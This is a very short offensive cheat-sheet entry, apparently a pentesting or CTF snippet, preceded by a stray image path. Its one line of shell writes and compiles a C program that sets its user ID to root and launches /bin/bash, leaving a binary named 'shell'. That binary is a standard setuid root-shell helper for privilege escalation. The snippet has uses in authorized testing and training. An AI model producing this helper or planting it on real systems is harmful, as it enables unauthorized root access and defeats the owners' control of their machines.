 # Tools

## generate shell bash bin
```
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c; gcc pwn.c -o <filename>; rm pwn.c
```

= filename: shell
